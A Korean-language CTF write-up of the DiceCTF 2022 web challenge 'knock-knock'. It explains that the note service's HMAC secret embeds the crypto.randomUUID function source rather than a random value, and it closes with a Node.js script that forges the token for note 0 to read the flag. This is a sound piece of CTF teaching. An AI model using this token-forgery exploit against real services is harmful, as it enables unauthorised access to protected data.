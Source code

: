 # DiceCTF 2022 WriteUp 
**CTF start Date: 2022-02-04 (2 day)**
***
- **[WEB] knock-knock (356 solves/107 points)**
- **[WEB] no-cookies (5 solves/415 points)**
- 

## [WEB] knock-knock 
Knock knock? Who's there? Another pastebin!!
URL: https://knock-knock.mc.ax/
(356 solves/107 points)

#### Analyse
문제에서 제공된 사이트에서 글쓰기, 읽기 기능을 확인할 수 있었다.
또한 문제 사이트의 소스코드가 제공이 되어 각각의 기능들을 파악하기 수월했다.

```
class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}
const db = new Database();
db.createNote({ data: process.env.FLAG });
```

위 소스코드는 글쓰기, 읽기를 위해 작성된 코드이며 글을 생성하기 위한 **createNote** 함수에선 글이 몇번째 글인지 확인하는 **id** 값과 id 값으로 생성되는 **token**을 만들고, 글을 읽기 위한 **getNote** 함수에선 id, token값을 받아 id값으로 token을 생성하고 전달받은 token값과 비교해 일치하면 사용자에게 id에 해당하는 글을 전달하는 것을 알 수 있다.

token을 생성하는 함수는 **generateToken** 함수이며 **this.secret** 값을 암호화 키로 id값을 sha256 HMAC으로 변환해 token을 생성한다.

**this.secret** 값은 \`secret-${crypto.randomUUID}\`와 같이 template string으로 되어 있었다.

**flag**는 서비스가 시작될 때 글로 생성되어 지는걸 확인 할 수 있었다. 
flag가 포함된 글의 id값은 createNote 함수의 `const id = this.notes.length;` 코드로 생성되기에 0의 값을 가지는걸 알 수 있다.

#### Find out the secret value
this.secret 값을 파악하기 위해 this.secret에 사용된 crypto.randomUUID 값을 보았다.
```
> crypto.randomUUID
[Function: randomUUID]

> crypto.randomUUID.toString()
'function randomUUID(options) {\n' +
  '  if (options !== undefined)\n' +
```
예상과는 다르게 crypto.randomUUID는 string type이 아닌 function type을 가지고 있었고 toString의 결과값은 함수의 내용을 출력하고 있었다.
따라서 \`secret-${crypto.randomUUID}\` 값은 random한 UUID값이 아닌 유추가능하고 일정한 값임을 알 수 있었다.
```
> `secret-${crypto.randomUUID}`
'secret-function randomUUID(options) {\n' +
  '  if (options !== undefined)\n' +
  "    validateObject(options, 'options');\n" +
  '  const {\n' +
  '    disableEntropyCache = false,\n' +
  '  } = { ...options };\n' +
```

#### Generate flag token and read flag

서버와 동일한 버전의 nodejs에서 사용해야 한다.
```
const request = require('request');
const crypto = require('crypto');
uri = "https://knock-knock.mc.ax/"
secret = `secret-${crypto.randomUUID}`;
token = crypto.createHmac('sha256', secret).update('0').digest('hex');
uri += `note?id=0&token=${token}`
const options = {
        uri,
};
request.get(options, function (error, response, body) {
        console.log(body);
});
```
